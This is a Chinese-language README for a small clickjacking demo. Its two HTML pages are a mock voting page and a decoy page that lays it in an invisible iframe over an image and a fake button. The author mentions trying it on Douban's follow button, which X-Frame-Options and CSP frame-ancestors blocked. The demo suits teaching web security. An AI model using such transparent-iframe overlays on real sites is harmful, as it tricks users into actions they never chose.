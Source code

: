 # click-jacking

一个关于点击劫持的小示例，首相看下理论知识

![avatar](./image/map.png)

## 项目思路

首先，制作一个功能页面，作为被iframe嵌套的功能页面；这个页面的功能就是模仿投票功能，点击按钮时，即可完成投票功能，控制台会同步打印出操作信息。

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <meta http-equiv="X-UA-Compatible" content="ie=edge">
  <title>Document</title>
  <style>
    .vote{
      width: 183px;
      margin: 0 auto;
      margin-top: 220px
    }
  </style>
</head>
<body>
  <div class="vote">
    <input type="text" value="5号选手">
    <button>投票</button>
  </div>

  <script>
    var span = document.getElementsByTagName('button')[0]
    span.addEventListener('click', function(){
      console.log('哈哈，谢谢你偷偷帮我投票～')
    })
  </script>
</body>
</html>
```
![avatar](./image/iframe.png)


制作一个只有图片的页面，用于迷惑用户进行交互；

```html
<!DOCTYPE html>
<html lang="en">

<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <meta http-equiv="X-UA-Compatible" content="ie=edge">
  <title>click jacking demo</title>
  <style>
    body {
      padding: 0;
      margin: 0
    }
    .png {
      height: 100%;
      width: 100%;
    }
    .iframe {
      width: 1440px;
      height: 900px;
      position: absolute;
      top: -0px;
      left: -0px;
      z-index: 3;
      -moz-opacity: 0;
      opacity: 0;
      filter: alpha(opacity=0);
    }
    .btn {
      display: inline-block;
      padding: 2px 3px;
      background: burlywood;
      color: #fff;
      position: absolute;
      top: 221px;
      left: 766px;
      z-index: 2;
      cursor: pointer;
      border-radius: 30%
    }
  </style>
</head>
<body>
  <img class='png' src="./image/clickme.jpeg" alt="">
  <iframe class="iframe" src="./iframe.html" scolling='no' allowTransparency="true"></iframe>
  <span class="btn">click</span>
</body>
</html>
```

浏览器打开，会发现根据提示点击按钮，会在控制台中打印了相关的信息，就是说，即使我没有在功能页面进行投票操作，可是能投票。
![avatar](./image/index.png)

在迷惑页面中把 `iframe` 的 `opacity` 属性值修改成 `0.3 `，就能看到这个迷惑的原因了。
![avatar](./image/truth.png)


### 其他

本来想做个坏事的，想要试试用于豆瓣上，直接定位到关注按钮那，不过 iframe 豆瓣的页面时，控制台报错了，这个想要说明的是使用设置`X-frame-options`属性是真有效的。

![avatar](./image/errer1.png)

也试过直接内嵌 `github `  的地址，也会报错，这个错是报跨域的错，不过具体的还不知道是怎么设置防御的。

```
an ancestor violates the following Content Security Policy directive: “frame-ancestors ...
```

至此，已经把 `点击劫持` 的形式演示完毕